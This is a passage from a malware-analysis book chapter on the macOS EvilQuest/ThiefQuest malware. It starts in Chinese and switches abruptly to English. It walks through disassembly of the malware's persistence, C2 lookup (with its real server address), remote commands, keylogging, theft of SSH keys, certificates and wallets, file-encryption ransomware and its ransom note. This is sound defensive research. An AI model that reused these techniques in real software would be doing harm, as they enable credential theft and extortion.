当用户或系统运行一个被 EvilQuest 感染的二进制文件时，注入到二进制文件中的恶意软件副本将开始执行。这是因为 macOS 的动态加载器会执行二进制文件开头的内容。

作为初始化的一部分，恶意软件调用一个名为`extract_ei`的方法，该方法检查运行进程的磁盘镜像。具体来说，恶意软件从文件的末尾读取`0x20`字节的“尾部”数据，并通过调用名为`unpack_trailer`的函数进行解包。如果这些尾部字节的最后一个是`0xdeadface`，恶意软件知道它是由于受感染的文件执行，而不是例如从它的启动项之一执行（列表 11-34）：

```
;unpack_trailer
;rcx: trailer data
0x0000000100004a39    cmp       dword ptr [rcx+8], 0xdeadface
0x0000000100004a40    mov       [rbp+var_38], rax
0x0000000100004a44    jz        isInfected
```

列表 11-34：检查尾部数据

如果找到尾部数据，`extract_ei`函数会返回指向受感染文件中恶意软件字节的指针。它还会返回这些数据的长度；请记住，这个值存储在尾部数据中。该代码块会在需要时重新保存、重新持久化并重新执行恶意软件，正如你在列表 11-35 中看到的那样：

```
maliciousBytes = extract_ei(argv, &size);
if (maliciousBytes != 0x0) {
    persist_executable_frombundle(maliciousBytes, size, ...);
    install_daemon(...);
    run_daemon(...);
    ...
```

列表 11-35：恶意软件重新保存、重新持久化并重新启动自身

如果我们执行受感染的二进制文件，我们可以在调试器中确认该文件调用了在`0x0000000100008df0`实现的`persist_executable_frombundle`函数。此函数负责将恶意软件从受感染文件写入磁盘，正如列表 11-36 中调试器输出所示：

```
% **lldb ~/HelloWorld**
...

Process 1209 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = instruction step over
    frame #0: 0x000000010000bee7 HelloWorld
->  0x10000bee7: callq  persist_executable_frombundle 

(lldb) **reg read**
General Purpose Registers:
       ...
       rdi = 0x0000000100128000 1
       rsi = 0x0000000000015770 2

(lldb) **x/10wx $rdi**
0x100128000: 0xfeedfacf 0x01000007 0x80000003 0x00000002
0x100128010: 0x00000012 0x000007c0 0x04200085 0x00000000
0x100128020: 0x00000019 0x00000048
```

列表 11-36：`persist_executable_frombundle`函数的参数

我们看到它调用时传入了指向受感染文件中恶意软件字节的指针 1 以及该数据的长度指针 2。

在文件监视器中，我们可以观察到受感染的二进制文件执行此逻辑以重新创建恶意软件的持久二进制文件（*~/Library/AppQuest/com.apple.quest*）和启动代理属性列表（*com.apple.questd.plist*），正如在列表 11-37 中所示：

```
# FileMonitor.app/Contents/MacOS/FileMonitor -pretty –filter HelloWorld
{
  "event" : "ES_EVENT_TYPE_NOTIFY_CREATE",
  "file" : {
    "destination" : "/Users/user/Library/AppQuest/com.apple.questd",
    "process" : {
      "uid" : 501,
      "path" : "/Users/user/HelloWorld",
      "name" : "HelloWorld",
      "pid" : 1209
      ...
     }
  }
}

{
  "event" : "ES_EVENT_TYPE_NOTIFY_CREATE",
  "file" : {
    "destination" : "/Users/user/Library/LaunchAgents/com.apple.questd.plist",
    "process" : {
      "uid" : 501,
      "path" : "/Users/user/HelloWorld",
 "name" : "HelloWorld",
      "pid" : 1209
      ...
     }
  }
}
```

列表 11-37：观察恶意启动代理二进制文件和 plist 的重新创建

你可能注意到，恶意软件没有重新创建其启动守护进程，因为这需要 root 权限，而受感染的进程并没有这些权限。

然后，受感染的二进制文件通过`launchctl`启动恶意软件，正如你在进程监视器中看到的（列表 11-38）：

```
# ProcessMonitor.app/Contents/MacOS/ProcessMonitor -pretty
{
  "event" : "ES_EVENT_TYPE_NOTIFY_EXEC",
  "process" : {
    "uid" : 501,
    "arguments" : [
      "launchctl",
      "submit",
      "-l",
      "questd",
      "-p",
      "/Users/user/Library/AppQuest/com.apple.questd"
    ],
    "name" : "launchctl",
    "pid" : 1309
  }
}

{
  "event" : "ES_EVENT_TYPE_NOTIFY_EXEC",
  "process" : {
    "uid" : 501,
    "path" : "/Users/user/Library/AppQuest/com.apple.questd",
    "name" : "com.apple.questd",
    "pid" : 1310
  }
}
```

列表 11-38：观察新持久化恶意软件的重新启动

这证实了本地病毒感染的主要目标是确保系统保持感染状态，即使恶意软件的启动项和二进制文件被删除。真狡猾！

### 执行受感染文件的原始代码

现在，受感染的二进制文件已经重新持久化并重新执行了恶意软件，它需要执行受感染二进制文件的原始代码，以便用户看不出任何异常。这由名为`run_target`的函数处理，位于`0x0000000100005140`。

`run_target`函数首先查阅尾部数据，以获取受感染文件中原始字节的偏移量。然后，该函数将这些字节写入一个新文件，命名规则为*.<originalfilename>1* 1，正如在列表 11-39 中所示。这个新文件随后被设置为可执行文件（通过`chmod`）并执行（通过`execl`）2：

```
1 file = fopen(newPath, "wb");
fwrite(bytes, 0x1, size, file);
fclose(file);

chmod(newPath, mode);
2 execl(newPath, 0x0); 
```

第 11-39 条目：执行受感染二进制的原始实例以确保没有任何异常出现

进程监视器可以捕获包含原始二进制字节的新文件的执行事件（第 11-40 条目）：

```
# ProcessMonitor.app/Contents/MacOS/ProcessMonitor -pretty
{
  "event" : "ES_EVENT_TYPE_NOTIFY_EXEC",
  "process" : {
    "uid" : 501,
    "path" : "/Users/user/.HelloWorld1",
    "name" : ".HelloWorld1",
    "pid" : 1209
  }
}
```

第 11-40 条目：观察执行受感染二进制的原始实例

将原始字节写入新文件并在执行之前是保留原始文件的代码签名和权限的一个好处。当 EvilQuest 感染一个二进制文件时，它会通过恶意修改文件来使任何代码签名和权限失效。尽管 macOS 仍然允许二进制文件运行，但它将不再尊重其权限，这可能会破坏合法的功能。仅仅将原始字节写入新文件可以恢复代码签名和任何权限。这意味着当执行时，新文件将按预期运行。

## 远程通信逻辑

EvilQuest 感染系统上的其他二进制文件后，会执行额外的操作，如文件外泄和执行远程任务。这些操作需要与远程服务器进行通信。在本节中，我们将探讨这种远程通信的逻辑。

### 中介和命令与控制服务器

为了确定其远程命令和控制服务器的地址，恶意软件调用一个名为`get_mediator`的函数。实现在``0x000000010000a910``，此函数接受两个参数：服务器地址和文件名。然后调用名为`http_request`的函数向指定服务器请求指定文件，恶意软件期望该文件包含命令和控制服务器的地址。这种间接查找机制很方便，因为它允许恶意软件作者随时更改命令和控制服务器的地址。他们所需做的就是更新主服务器上的文件。

````Examining the malware’s disassembly turns up several cross references to the `get_mediator` function. The code prior to these calls references the server and file. Unsurprisingly, both are encrypted (Listing 11-41):    ``` 0x00000001000016bf    lea        rdi, qword [a3ihmvk0rfo0r3k] 0x00000001000016c6    call       ei_str  0x00000001000016cb    lea        rdi, qword [a1mnsh21anlz906] 0x00000001000016d2    mov        qword [rbp+URL], rax 0x00000001000016d9    call       _ei_str  0x00000001000016de    mov        rdi, qword [rbp+URL] 0x00000001000016e5    mov        rsi, rax 0x00000001000016e8    call       get_mediator ```    Listing 11-41: Argument initializations and a call to the `get_mediator` function    Using a debugger or our injectable *deobfuscator dylib* discussed in Chapter 10, we can easily retrieve the plaintext for these strings:    ``` 3iHMvK0RFo0r3KGWvD28URSu06OhV61tdk0t22nizO3nao1q0000033 -> andrewka6.pythonanywhere 1MNsh21anlz906WugB2zwfjn0000083 -> ret.txt ```    You could also run a network sniffer such as Wireshark to passively capture the network request in action and reveal both the server and filename. Once the HTTP request to *andrewka6.pythonanywhere* for the file *ret.txt* completes, the malware will have the address of its command and control server. At the time of the malware’s discovery in mid-2020, this address was `167.71.237.219`.    If the HTTP request fails, EvilQuest has a backup plan. The `get_mediator` function’s main caller is the `eiht_get_update` function, which we’ll cover in the following section. Here, we’ll just note that the function will fall back to a hardcoded command and control server if the call to `get_mediator` fails (Listing 11-42):    ``` eiht_get_update() {  ...   if(*mediated == NULL) {      *mediated  = get_mediator(url, page);     if (*mediated == 0x0) {          //167.71.237.219  *mediated = ei_str("1utt{h1QSly81vOiy83P9dPz0000013");     }     ... ```    Listing 11-42: Fallback logic for a backup command and control server    The hardcoded address of the command and control server, `167.71.237.219`, matches the one found online in the *ret.txt* file.    ### Remote Tasking Logic    A common feature of persistent malware is the ability to accept commands remotely from an attacker and run them on the victim system. It’s important to figure out what commands the malware supports in order to gauge the full impact of an infection. Though EvilQuest only supports a small set of commands, these are enough to afford a remote attacker complete control of an infected system. Interestingly, some the commands appear to be placeholders for now, as they are unimplemented and return `0` if invoked.    The tasking logic starts in the main function, where another function named `eiht_get_update` is invoked. This function first attempts to retrieve the address of the attacker’s command and control server via a call to `get_mediator`. If this call fails, the malware will fall back to using the hardcoded address we identified in the previous section.    The malware then gathers basic host information via a function named `ei_get_host_info`. Looking at the disassembly of this function (Listing 11-43) reveals it invokes macOS APIs like `uname`, `getlogin`, and `gethostname` to generate a basic survey of the infected host:    ``` ei_get_host_info: 0x0000000100005b00    push       rbp  0x0000000100005b01    mov        rbp, rsp ... 0x0000000100005b1d    call       uname  ... 0x0000000100005f18    call       getlogin  ... 0x0000000100005f4a    call       gethostname ```    Listing 11-43: The `ei_get_host_info` survey logic    In a debugger, we can wait until the `ei_get_host_info` function is about to execute the `retq` instruction 1 in order to return to its caller and then dump the survey data it has collected (Listing 11-44) 2:    ``` (lldb) **x/i $rip** 1 ->  0x100006043: c3  retq   2 (lldb) **p ((char**)$rax)[0]**  0x0000000100207bb0 "user[(null)]" (lldb) **p ((char**)$rax)[1]** 0x0000000100208990 "Darwin 19.6\. (x86_64) US-ASCII yes-no" ```    Listing 11-44: Dumping the survey    The survey data is serialized via a call to a function named `eicc_serialize_request` (implemented at `0x0000000100000d30`) before being sent to the attacker’s command and control server by the `http_request` function. At `0x000000010000b0a3` we find a call to a function named `eicc_deserialize_request`, which deserializes the response from the server. A call to the `eiht_check_command` function (implemented at `0x000000010000a9b0`) validates the response, which should be a command to execute.    Interestingly, it appears that some information about the received command, perhaps a checksum, is logged to a file called *.shcsh* by means of a call to the `eiht_append_command` function (Listing 11-45):    ``` int eiht_append_command(int arg0, int arg1) {     checksum = ei_tpyrc_checksum(arg0, arg1);    ...    file = fopen(".shcsh", "ab");    fseek(var_28, 0x0, 0x2);    fwrite(&checksum, 0x1, 0x4, file);    fclose(file);    ... } ```    Listing 11-45: Perhaps a cache of received commands?    Finally, `eiht_get_update` invokes a function named `dispatch` to handle the command. Reverse engineering the `dispatch` function, found at `0x000000010000a7e0`, reveals support for seven commands. Let’s detail each of these.    ### react_exec (0x1)    If the command and control server responds with the command `0x1` 1, the malware will invoke a function named `react_exec` 2, as shown in Listing 11-46:    ``` dispatch: 0x000000010000a7e0    push 0x000000010000a7e1    mov       rbp, rsp ...  0x000000010000a7e8    mov       qword [rbp+ptrCommand], rdi ... 0x000000010000a7fe    mov       rax, qword [rbp+ptrCommand] 0x000000010000a802    mov       rax, qword [rax] 1 0x000000010000a805    cmp       dword [rax], 0x1  0x000000010000a808    jne       continue 0x000000010000a80e    mov       rdi, qword [rbp+ptrCommand] 2 0x000000010000a812    call      react_exec  ```    Listing 11-46: Invocation of the `react_exec` function    The `react_exec` command will execute a payload received from the server. Interestingly, `react_exec` attempts to first execute the payload directly from memory. This ensures that the payload never touches the infected system’s filesystem, providing a reasonable defense against antivirus scanning and forensics tools.    To execute the payload from memory, `react_exec` calls a function named `ei_run_memory_hrd`, which invokes various Apple APIs to load and link the in-memory payload. Once the payload has been prepared for in-memory execution, the malware will execute it (Listing 11-47):    ``` ei_run_memory_hrd: 0x0000000100003790    push       rbp  0x0000000100003791    mov        rbp, rsp ...  0x0000000100003854    call       NSCreateObjectFileImageFromMemory ... 0x0000000100003973    call       NSLinkModule ... 0x00000001000039aa    call       NSLookupSymbolInModule ... 0x00000001000039da    call       NSAddressOfSymbol ... 0x0000000100003a11    call       rax ```    Listing 11-47: The `ei_run_memory_hrd`’s in-memory coded execution logic    In my BlackHat 2015 talk “Writing Bad @$$ Malware for OS X,” I discussed this same in-memory code execution technique and noted that Apple used to host similar sample code.^(3) The code in EvilQuest’s `react_exec` function seems to be directly based on Apple’s code. For example, both Apple’s code and the malware use the string `"[Memory Based Bundle]"`.    However, it appears there is a bug in the malware’s “run from memory” logic (Listing 11-48):    ``` 000000010000399c    mov       rdi, qword [module] 00000001000039a3    lea       rsi, qword [a2l78i0wi...]     ;"_2l78|i0Wi0rn2YVsFe3..." 00000001000039aa    call      NSLookupSymbolInModule ```    Listing 11-48: A bug in the malware’s code    Notice that the malware author failed to deobfuscate the symbol via a call to `ei_str` before passing it to the `NSLookupSymbolInModule` API. Thus, the symbol resolution will fail.    If the in-memory execution fails, the malware contains backup logic and instead writes out the payload to a file named *.xookc*, sets it to be executable via `chmod`, and then executes via the following:    ``` osascript -e "do shell script \"sudo open .xookc\" with administrator privileges" ```    ### react_save (0x2)    The `0x2` command causes the malware to execute a function named `react_save`. This function downloads an executable file from the command and control server to the infected system.    Take a look at the decompiled code of this function in Listing 11-49, which is implemented at `0x000000010000a300`. We can see it first decodes data received from the server via a call to the `eib_decode` function. Then it saves this data to a file with a filename specified by the server. Once the file is saved, `chmod` is invoked with `0x1ed` (or `0755` octal), which sets the file’s executable bit.    ``` int react_save(int arg0) {     ...     decodedData = eib_decode(...data from server...);     file = fopen(name, "wb");     fwrite(decodedData, 0x1, length, file);     fclose(file);     chmod(name, 0x1ed);     ... ```    Listing 11-49: The core logic of the `react_save` function    ### react_start (0x4)    If EvilQuest receives command `0x4` from the server, it invokes a method named `react_start`. However, this function is currently unimplemented and simply sets the `EAX` register to `0` via the XOR instruction 1 (Listing 11-50):    ``` dispatch: 0x000000010000a7e0    push 0x000000010000a7e1    mov        rbp, rsp ...  0x000000010000a826    cmp        dword [rax], 0x4 0x000000010000a829    jne        continue 0x000000010000a82f    mov        rdi, qword [rbp+var_10] 0x000000010000a833    call       react_start  react_start: 0x000000010000a460    push       rbp 0x000000010000a461    mov        rbp, rsp 0x000000010000a464    xor      1 eax, eax 0x000000010000a466    mov        qword [rbp+var_8], rdi 0x000000010000a46a    pop        rbp 0x000000010000a46b    ret ```    Listing 11-50: The `react_start` function remains unimplemented    In future versions of the malware, perhaps we’ll see completed versions of this (and the other currently unimplemented) commands.    ### react_keys (0x8)    If EvilQuest encounters command `0x8`, it will invoke a function named `react_keys`, which kicks off keylogging logic. A closer look at the disassembly of the `react_keys` function reveals it spawns a background thread to execute a function named `eilf_rglk_watch_routine`. This function invokes various CoreGraphics APIs that allow a program to intercept user keypresses (Listing 11-51):    ``` eilf_rglk_watch_routine: 0x000000010000d460    push       rbp  0x000000010000d461    mov        rbp, rsp ...  0x000000010000d48f    call       CGEventTapCreate ... 0x000000010000d4d2    call       CFMachPortCreateRunLoopSource ... 0x000000010000d4db    call       CFRunLoopGetCurrent  ... 0x000000010000d4f1    call       CFRunLoopAddSource ... 0x000000010000d4ff    call       CGEventTapEnable ... 0x000000010000d504    call       CFRunLoopRun ```    Listing 11-51: Keylogger logic, found within the `eilf_rglk_watch_routine` function    Specifically, the function creates an event tap via the `CGEventTapCreate` API, adds it to the current run loop, and then invokes the `CGEventTapEnable` to activate the event tap. Apple’s documentation for `CGEventTapCreate` specifies that it takes a user-specified callback function that will be invoked for each event, such as a keypress.^(4) As this callback is the `CGEventTapCreate` function’s fifth argument, it will be passed in the `R8` register (Listing 11-52):    ``` 0x000000010000d488    lea       r8, qword [process_event]  0x000000010000d48f    call      CGEventTapCreate ```    Listing 11-52: The callback argument for the `CGEventTapCreate` function    Taking a peek at the malware’s `process_event` callback function reveals it’s converting the keypress (a numeric key code) to a string via a call to a helper function named `kconvert`. However, instead of logging this captured keystroke or exfiltrating it directly to the attacker, it simply prints it out locally (Listing 11-53):    ``` int process_event(...) {    ...     keycode = kconvert(CGEventGetIntegerValueField(keycode, 0x9) & 0xffff);    printf("%s\n", keycode); ```    Listing 11-53: The keylogger’s callback function, `process_event`    Maybe this code is still a work in progress.    ### react_ping (0x10)    The next command, `react_ping`, is invoked if the malware receives a `0x10` from the server (Listing 11-54). The `react_ping` first decrypts the encrypted string, `"1|N|2P1RVDSH0KfURs3Xe2Nd0000073"`, and then compares it with a string it has received from the server:    ``` react_ping: 0x000000010000a500    push      rbp         0x000000010000a501    mov       rbp, rsp ...  0x000000010000a517    lea       rax, qword [a1n2p1rvdsh0kfu] ; "1|N|2P1RVDS..." ... 0x000000010000a522    mov       rdi, rax 0x000000010000a525    call      ei_str  ... 0x000000010000a52c    mov       rdi, qword [rbp+strFromServer] 0x000000010000a530    mov       rsi, rax 0x000000010000a536    call      strcmp ... ```    Listing 11-54: The core logic of the `react_ping` function    Using our decryptor library, or a debugger, we can decrypt the string, which reads “Hi there.” If the server sends the “Hi there” message to the malware, the string comparison will succeed, and `react_ping` will return a success. Based on this command’s name and its logic, it is likely used by the remote attack to check the status (or availability) of an infected system. This is, of course, rather similar to the popular `ping` utility, which can be used to test the reachability of a remote host.    ### react_host (0x20)    Next we find logic to execute a function named `react_host` if a `0x20` is received from the server. However, as was the case with the `react_start` function, `react_host` is currently unimplemented and simply returns `0x0`.    ### react_scmd (0x40)    The final command supported by EvilQuest invokes a function named `react_scmd` in response to a `0x40` from the server (Listing 11-55):    ``` react_scmd: 0x0000000100009e80    push       rbp 0x0000000100009e81    mov        rbp, rsp ...  0x0000000100009edd    mov        rdi, qword [command] 0x0000000100009ee1    lea        rsi, qword [mode] 0x0000000100009eec    call       popen ... 0x0000000100009f8e    call       fread ... 0x000000010000a003    call       eicc_serialize_request ... 0x000000010000a123    call       http_request ```    Listing 11-55: The core logic of the `react_scmd` function    This function will execute a command specified by the server via the `popen` API. Once the command has been executed, the output is captured and transmitted to the server via the `eicc_serialize_request` and `http_request` functions.    This wraps up the analysis of EvilQuest’s remote tasking capabilities. Though some of the commands appear incomplete or unimplemented, others afford a remote attacker the ability to download additional updates or payloads and execute arbitrary commands on an infected system.    ## The File Exfiltration Logic    One of EvilQuest’s main capabilities is the exfiltration of a full directory listing and files that match a hardcoded list of regular expressions. In this section we’ll analyze the relevant code to understand this logic.    ### Directory Listing Exfiltration    Starting in the main function, the malware creates a background thread to execute a function named `ei_forensic_thread`, as shown in Listing 11-56:    ``` rax = pthread_create(&thread, 0x0, ei_forensic_thread, &args); if (rax != 0x0) {    printf("Cannot create thread!\n");    exit(-1); }  ```    Listing 11-56: Executing the `ei_forensic_thread` function via a background thread    The `ei_forensic_thread` function first invokes the `get_mediator` function, described in the previous section, to determine the address of the command and control server. It then invokes a function named `lfsc_dirlist`, passing in an encrypted string (that decrypts to `"/Users"`), as seen in Listing 11-57:    ``` 0x000000010000170a    mov        rdi, qword [rbp+rax*8+var_30] 0x000000010000170f    call       ei_str ... 0x0000000100001714    mov        rdi, qword [rbp+var_10] 0x0000000100001718    mov        esi, dword [rdi+8] 0x000000010000171b    mov        rdi, rax 0x000000010000171e    call       lfsc_dirlist ```    Listing 11-57: Invoking the `lfsc_dirlist` function    The `lfsc_dirlist` function performs a recursive directory listing, starting at a specified root directory and searching each of its files and directories. After we step over the call to `lfsc_dirlist` in the following debugger output, we can see that the function returns this recursive directory listing, which indeed starts at `"/Users"` (Listing 11-58):    ``` # **lldb /Library/mixednkey/toolroomd** ...  (lldb) **b 0x000000010000171e** Breakpoint 1: where = toolroomd`toolroomd[0x000000010000171e], address = 0x000000010000171e  (lldb) **c**  * thread #4, stop reason = breakpoint 1.1 ->  0x10000171e: callq  lfsc_dirlist  (lldb)**ni**  (lldb) **x/s $rax** 0x10080bc00:   "/Users/user   /Users/Shared   /Users/user/Music   /Users/user/.lldb   /Users/user/Pictures   /Users/user/Desktop   /Users/user/Library   /Users/user/.bash_sessions   /Users/user/Public   /Users/user/Movies   /Users/user/.Trash   /Users/user/Documents   /Users/user/Downloads   /Users/user/Library/Application Support   /Users/user/Library/Maps   /Users/user/Library/Assistant   ... ```    Listing 11-58: The generated (recursive) directory listing    If you consult the disassembly, you’ll be able to see that this directory listing is then sent to the attacker’s command and control server via a call to the malware’s `ei_forensic_sendfile` function.    ### Certificate and Cryptocurrency File Exfiltration    Once the infected system’s directory listing has been exfiltrated, EvilQuest once again invokes the `get_targets` function. Recall that, given a root directory such as */Users*, the `get_targets` function recursively generates a list of files. For each file encountered, the malware applies a callback function to check whether the file is of interest. In this case, `get_targets` is invoked with the `is_lfsc_target` callback:    ``` rax = get_targets(rax, &var_18, &var_1C, **is_lfsc_target**);  ```    In Listing 11-59’s abridged decompilation, note that the `is_lfsc_target` callback function invokes two helper functions, `lfsc_parse_template` and `is_lfsc_target`, to determine if a file is of interest:    ``` int is_lfsc_target(char* file) {       memcpy(&templates, 1 0x100013330, 0x98);     isTarget = 0x0;     length = strlen(file);     index = 0x0;     do {             if(isTarget) break;             if(index >= 0x13) break;              template = ei_str(templates+index*8);             parsedTemplate = lfsc_parse_template(template);             if(lfsc_match(parsedTemplate, file, length) == 0x1)              {                isTarget = 0x1;             }              index++;      } while (true);      return isTarget; } ```    Listing 11-59: Core logic of the `is_lfsc_target` function    From this decompilation, we can also see that the templates used to determine if a file is of interest are loaded from `0x100013330` 1. If we check this address, we find a list of encrypted strings, shown in Listing 11-60:    ``` 0x0000000100013330    dq   0x0000000100010a95 ; "2Y6ndF3HGBhV3OZ5wT2ya9se0000053", 0x0000000100013338    dq   0x0000000100010ab5 ; "3mkAT20Khcxt23iYti06y5Ay0000083" 0x0000000100013340    dq   0x0000000100010ad5 ; "3mTqdG3tFoV51KYxgy38orxy0000083" 0x0000000100013348    dq   0x0000000100010af5 ; "2Glxas1XPf4|11RXKJ3qj71m0000023" ... ```    Listing 11-60: Encrypted list of files of “interest”    Thanks to our injected decryptor library, we have the ability to decrypt this list (Listing 11-61):    ``` % **DYLD_INSERT_LIBRARIES=/tmp/decryptor.dylib /Library/mixednkey/toolroomd** **... decrypted string (0x100010a95): *id_rsa*/i decrypted string (0x100010ab5): *.pem/i decrypted string (0x100010ad5): *.ppk/i decrypted string (0x100010af5): known_hosts/i decrypted string (0x100010b15): *.ca-bundle/i decrypted string (0x100010b35): *.crt/i decrypted string (0x100010b55): *.p7!/i decrypted string (0x100010b75): *.!er/i decrypted string (0x100010b95): *.pfx/i decrypted string (0x100010bb5): *.p12/i decrypted string (0x100010bd5): *key*.pdf/i decrypted string (0x100010bf5): *wallet*.pdf/i decrypted string (0x100010c15): *key*.png/i decrypted string (0x100010c35): *wallet*.png/i decrypted string (0x100010c55): *key*.jpg/i decrypted string (0x100010c75): *wallet*.jpg/i decrypted string (0x100010c95): *key*.jpeg/i decrypted string (0x100010cb5): *wallet*.jpeg/i ...** ```   **Listing 11-61: Decrypted list of files of “interest”    From the decrypted list, we can see that EvilQuest has a propensity for sensitive files, such as certificates and cryptocurrency wallets and keys!    Once the `get_targets` function returns a list of files that match these templates, the malware reads each file’s contents via a call to `lfsc_get_contents` and then exfiltrates the contents to the command and control server using the `ei_forensic_sendfile` function (Listing 11-62):    ``` get_targets("/Users", &targets, &count, is_lfsc_target);  for (index = 0x0; index < count; ++index) {        targetPath = targets[index];        lfsc_get_contents(targetPath, &targetContents, &targetContentSize);       ei_forensic_sendfile(targetContents, targetContentSize, ...);        ... ```    Listing 11-62: File exfiltration via the `ei_forensic_sendfile` function    We can confirm this logic in a debugger by creating a file on the desktop named *key.png* and setting a breakpoint on the call to `lfsc_get_contents` at `0x0000000100001965`. Once the breakpoint is hit, we print out the contents of the first argument (`RDI`) and see that, indeed, the malware is attempting to read and then exfiltrate the *key.png* file (Listing 11-63):    ``` # **lldb /Library/mixednkey/toolroomd** ...  (lldb) **b 0x0000000100001965** Breakpoint 1: where = toolroomd`toolroomd[0x0000000100001965], address = 0x0000000100001965  (lldb) **c**  * thread #4, stop reason = breakpoint 1.1 ->  0x100001965: callq  lfsc_get_contents  (lldb) **x/s $rdi** 0x1001a99b0: "/Users/user/Desktop/key.png" ```    Listing 11-63: Observing file exfiltration logic via the debugger    Now we know that if a user becomes infected with EvilQuest, they should assume that all of their certificates, wallets, and keys belong to the attackers.    ## File Encryption Logic    Recall that Dinesh Devadoss, the researcher who discovered EvilQuest, noted that the malware contained ransomware capabilities. Let’s continue our analysis efforts by focusing on this ransomware logic. You can find the relevant code from the main function, where the malware invokes a method named `s_is_high_time` and then waits on several timers to expire before kicking off the encryption logic, which begins in a function named `ei_carver_main` (Listing 11-64):    ``` if ( (s_is_high_time(var_80) != 0x0) &&       ( ( (ei_timer_check(var_70) == 0x1) &&           (ei_timer_check(var_130) == 0x1)) &&           (var_11C < 0x2))) {          ...          ei_carver_main(*var_10, &var_120); ```    Listing 11-64: Following timer checks, the `ei_carver_main` function is invoked.    Of particular note is the `s_is_high_time` function, which invokes the `time` API function and then compares the returned time epoch with the hardcoded value `0x5efa01f0`. This value resolves to Monday, June 29, 2020 15:00:00 GMT. If the date on an infected system is before this, the function will return a `0`, and the file encryption logic will not be invoked. In other words, the malware’s ransomware logic will only be triggered at or after this date and time.    If we take a look at the `ei_carver_main` function’s disassembly at `0x000000010000ba50`, we can see it first generates the encryption key by calling the `random` API, as well as functions named `eip_seeds` and `eip_key`. Following this, it invokes the `get_targets` function. Recall that this function recursively generates a list of files from a root directory by using a specified callback function to filter the results. In this instance, the root directory is */Users*.    The callback function, `is_file_target`, will only match certain file extensions. You can find this encrypted list of extensions hardcoded within the malware at `0x000000010001299e`. Using our injectable decryptor library, we can recover this rather massive list of target file extensions, which includes *.zip*, *.dmg*, *.pkg*, *.jpg*, *.png*, *.mp3*, *.mov*, *.txt*, *.doc*, *.xls*, *.ppt*, *.pages*, *.numbers*, *.keynote*, *.pdf*, *.c*, *.m*, and more.    After it has generated a list of target files, the malware completes a key-generation process by calling `random_key`, which in turn calls `srandom` and `random`. Then the malware calls a function named `carve_target` on each target file, as seen in Listing 11-65:    ``` result = get_targets("/Users", &targets, &count, is_file_target); if (result == 0x0) {       key = random_key();       for (index = 0x0; index < count; index++) {          carve_target(targets[i], key, ...);        }     } ```    Listing 11-65: Encrypting (ransoming) target files    The `carve_target` function takes the path of the file to encrypt and various encryption key values. If we analyze the disassembly of the function or step through it in a debugging session, we’ll see that it performs the following actions to encrypt each file:    1.  Makes sure the file is accessible via a call to `stat` 2.  Creates a temporary filename by calling a function named `make_temp_name` 3.  Opens the target file for reading 4.  Checks if the target file is already encrypted with a call to a function named `is_carved`, which checks for the presence of `0xddbebabe` at the end of the file 5.  Opens the temporary file for writing 6.  Reads `0x4000`-byte chunks from the target file 7.  Invokes a function named `tpcrypt` to encrypt the `0x4000` bytes 8.  Writes out the encrypted bytes to the temporary file 9.  Repeats steps 6–8 until all bytes have been read and encrypted from the target file 10.  Invokes a function named `eip_encrypt` to encrypt keying information, which is then appended to the temporary file 11.  Writes `0xddbebabe` to the end of the temporary file 12.  Deletes the target file 13.  Renames the temporary file to the target file    Once EvilQuest has encrypted all files that match file extensions of interest, it writes out the text in Figure 11-2 to a file named *READ_ME_NOW.txt*.  ![The text in READ_ME_NOW.txt is as follows:  “YOUR IMPORTANT FILES ARE ENCRYPTED.  Many of your documents, photos, videos, images and other files are no longer accessible because they have been encrypted. Maybe you are busy looking for a way to recover your files, but do not waste your time. Nobody can recover your file without our decryption service. We use 256-bit AES algorithm so it will take you more than a billion years to break this encryption without knowing the key (you can read Wikipedia about AES if you don’t believe this statement). Anyways, we guarantee that you can recover your files safely and easily. This will require us to use some processing power, electricity and storage on our side, so there’s a fixed processing fee of 50 USD. This is a one-time payment, no additional fees included. In order to accept this offer, you have to deposit payment within 72 hours (3 days) after receiving this message, otherwise this offer will expire and you will lose your files forever. Payment has to be deposited in Bitcoin based on Bitcoin/USD exchange rate at the moment of payment. The address you have to make payment to is: 13roGMpWd7Pb3ZoJyce8eo0pfeg0vGHHK7\. Decryption will start automatically within 2 hours after the payment has been processed and will take from 2 to 5 hours depending on the processing power of your computer. After that all of your files will be restored. THIS OFFER IS VALID FOR 72 HOURS AFTER RECEIVING THIS MESSAGE.”](img/f11002.png)    Figure 11-2: EvilQuest’s ransom note      To make sure the user reads this file, the malware also displays a modal prompt and reads it aloud via macOS’s built-in `say` command.    If you peruse the code, you might notice a function named `uncarve_target`, implemented at `0x000000010000f230`, that is likely responsible for restoring ransomed files. Yet this function is never invoked. That is to say, no other code or logic references this function. You can confirm this by searching Hopper (or another disassembly tool) for references to the function’s address. As no such cross-references are found, it appears that paying the ransom won’t actually get you your files back. Moreover, the ransom note does not include any way to communicate with the attacker. As Phil Stokes put it, “there’s no way for you to tell the threat actors that you paid; no request for your contact address; and no request for a sample encrypted file or any other identifying factor.”^(5)    Luckily for EvilQuest victims, researchers at SentinelOne reversed the cryptographic algorithm used to encrypt files and found a method of recovering the encryption key. In a write-up, Jason Reaves notes that the malware writers use symmetric key encryption, which relies on the same key to both encrypt and decrypt the file; moreover, “the cleartext key used for encoding the file encryption key ends up being appended to the encoded file encryption key.”^(6) Based on their findings, the researchers were able to create a full decryptor, which they publicly released.    ## EvilQuest Updates    Often malware specimens evolve, and defenders will discover new variants of them in the wild. EvilQuest is no exception. Before wrapping up our analysis of this insidious threat, let’s briefly highlight some changes found in later versions of EvilQuest (also called ThiefQuest). You can read more about these differences in a Trend Micro write-up titled “Updates on Quickly-Evolving ThiefQuest macOS Malware.”^(7)    ### Better Anti-Analysis Logic    The Trend Micro write-up notes that later versions of EvilQuest contain “improved” anti-analysis logic. First and foremost, its function names have been obfuscated. This slightly complicates analysis efforts, as the function names in older versions were quite descriptive.    For example, the string decryption function `ei_str` has been renamed to `52M_rj`. We can confirm this by looking at the disassembly in the updated version of the malware (Listing 11-66), where we see that at various locations in the code, `52M_rj` takes an encrypted string as its parameter:    ``` 0x00000001000106a5    lea   rdi, qword [a2aawvq0k9vm01w] ; "2aAwvQ0k9VM01w..." 0x00000001000106ac    call  52M_rj  ... 0x00000001000106b5    lea   rdi, qword [a3zi8j820yphd00] ; "3zI8J820YPhd00..." 0x00000001000106bc    call  52M_rj ```    Listing 11-66: Obfuscated function names    A quick triage of the `52M_rj` function confirms it contains the core logic to decrypt the malware’s embedded strings.    Another approach to mapping the old version of functions to their newer versions is by checking the system API calls they invoke. Take, for example, the `NSCreateObjectFileImageFromMemory` and 